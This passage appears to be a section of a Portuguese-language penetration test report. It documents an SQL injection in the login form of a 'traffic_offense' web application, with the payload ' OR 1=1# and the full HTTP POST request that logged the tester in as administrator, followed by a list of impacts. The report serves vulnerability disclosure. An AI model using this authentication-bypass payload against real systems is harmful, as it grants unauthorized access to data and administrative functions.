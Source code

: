 ![SQLi](4-sqli.png)

**Descrição:**  
Foi identificada uma vulnerabilidade de injeção SQL no formulário de login da aplicação principal. A aplicação não sanitiza adequadamente a entrada do usuário, permitindo a injeção de comandos SQL que podem resultar em acesso não autorizado ao sistema.

**Evidência:**  
Ao submeter a string `' OR 1=1#` no campo de usuário e campo de senha, a aplicação autenticou o pentest com privilégios administrativos, permitindo acesso completo ao painel de administração.

```

POST /traffic_offense/classes/Login.php?f=login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 47
Connection: close
Cookie: PHPSESSID=5vr3fm16tmrncov6j4amftftmi
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=' OR 1=1#&password=' OR 1=1#
```

**Impacto:**  
Esta vulnerabilidade permite que um atacante:
- Acesse o sistema sem credenciais válidas
- Obtenha acesso a informações sensíveis armazenadas no banco de dados
- Execute operações privilegiadas dentro da aplicação
- Potencialmente exfiltre todo o conteúdo do banco de dados

